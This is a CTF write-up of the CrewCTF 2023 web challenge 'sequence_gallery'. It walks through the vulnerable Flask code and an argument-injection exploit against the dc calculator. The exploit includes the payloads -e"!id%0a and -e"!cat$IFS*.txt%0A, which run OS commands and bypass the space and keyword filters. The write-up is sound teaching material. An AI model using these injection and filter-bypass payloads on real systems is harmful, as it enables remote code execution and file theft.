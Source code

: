 # sequence_gallery

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Conclusion](#conclusion)

## Overview

- 101 solves / 100 points
- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

- Do you like sequences?

Author : Satoooon

[http://sequence-gallery.chal.crewc.tf:8080/](http://sequence-gallery.chal.crewc.tf:8080/)

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230710142650.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708134050.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708145108.png)

**In here, we can click the "View" button to see the output of each functions:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708145125.png)

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/Web/sequence_gallery/sequence_gallery.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|14:51:57(HKT)]
└> unzip sequence_gallery.zip 
Archive:  sequence_gallery.zip
   creating: dist/
   creating: dist/src/
  inflating: dist/src/factorial.dc   
  inflating: dist/src/fibonacchi.dc  
  inflating: dist/src/flag.txt       
  inflating: dist/src/main.py        
  inflating: dist/src/power.dc       
   creating: dist/src/templates/
  inflating: dist/src/templates/index.html  
```

**In `dist/src/main.py`, we can see the web application logic:**
```python
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)
```

In route `/`, when the `sequence` GET parameter is given, it'll strip out all rest of the path and ONLY extract the filename. Then, it'll append `.dc` to the filename. For example, parameter value `power` will become `power.dc`.

Moreover, if the `sequence` GET parameter's value contains ` ` or `flag`, it'll return `:(`.

After that, it'll use `subprocess.run()` method to execute a Linux command called `dc`, and with the `sequence` GET parameter's value as the ***argument***. Notice that the `Shell` argument is not provided, which means **we can't inject OS command**. (Or is it :D)

Finally, use `render_template()` to render the `output` of the `dc` command. (`render_template()` is not vulnerable to Server-Side Template Injection (SSTI))

## Exploitation

Now, in `subprocess.run()` method it doesn't have `Shell=True`, however it doesn't mean it's not vulnerable.

Our `sequence` GET parameter's value is being parsed as an argument in the `dc` command, thus it's ***vulnerable argument injection***:

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150122.png)

Nice! We can now confirm it's vulnerable to argument injection.

Hmm... I wonder what's `dc` in Linux...

**Let's install and view it's `man` page:**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:45(HKT)]
└> sudo apt install dc
[...]
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:47(HKT)]
└> man dc
[...]
DESCRIPTION
       dc  is  a  reverse-polish  desk calculator which supports unlimited precision arithmetic.  It
       also allows you to define and call macros.  Normally dc reads from the standard input; if any
       command arguments are given to it, they are filenames, and dc reads and executes the contents
       of the files before reading from standard input.  All normal output is  to  standard  output;
       all error output is to standard error.

       A  reverse-polish  calculator  stores numbers on a stack.  Entering a number pushes it on the
       stack.  Arithmetic operations pop arguments off the stack and push the results.

       To enter a number in dc, type the digits (using upper case letters A through  F  as  "digits"
       when working with input bases greater than ten), with an optional decimal point.  Exponential
       notation is not supported.  To enter a negative number, begin the number with  ``_''.   ``-''
       cannot  be  used  for this, as it is a binary operator for subtraction instead.  To enter two
       numbers in succession, separate them with spaces or newlines.  These have no meaning as  com‐
       mands.
[...]
```

With that said, it's basically a *calculator*.

**However, when I was reading the `man` page, I found this:**
```shell
[...]
Miscellaneous
       !      Will run the rest of the line as a system command.  Note that parsing of the  !<,  !=,
              and  !>  commands take precedence, so if you want to run a command starting with <, =,
              or > you will need to add a space after the !.
[...]
```

Wow! So we can execute OS command? Cool!

**Let's try the following payload:**
```shell
-e !id
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150507.png)

Uhh... I forgot the ` ` filter.

**In order to bypass the ` ` filter, we can try to replace ` ` with anything else:**
```shell
-e"!id
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150638.png)

We bypassed the filter! However, the `id` command still didn't execute...

**This is because our `id` command hasn't pressed the Enter key, or the new line character `\n` (`%0a` in URL encoding):**
```
-e"!id%0a
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150815.png)

Nice! We can now execute arbitrary OS commands! 

**Let's get the flag!**
```
-e"!cat flag.txt%0A
```

Uh... Wait, the filters!

This time, since the ` ` is executed on the system, we need to find other bypasses.

Based on my experience, some Bash jail CTF challenges have banned ` ` the character.

In Bash, **we can use the `$IFS` special shell variable**. The `$IFS` (Internal Field Separator) is used by the shell to determine how to do word splitting, the default value for `$IFS` consists of whitespace characters.

Next, we need to bypass the `flag` filter.

To do so, we can use the `*` wildcard character, which will then read all the files in the current working directory.

**Hence, the final payload will be:**
```shell
-e"!cat$IFS*.txt%0A
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708151601.png)

- **Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`**

```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:18:28(HKT)]
└> dc         
10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx
DoULikeDC?
```

- Real flag (?) : `crew{DoULikeDC?}`

## Conclusion

What we've learned:

1. Remote Code Execution Via Argument Injection With `dc` Command
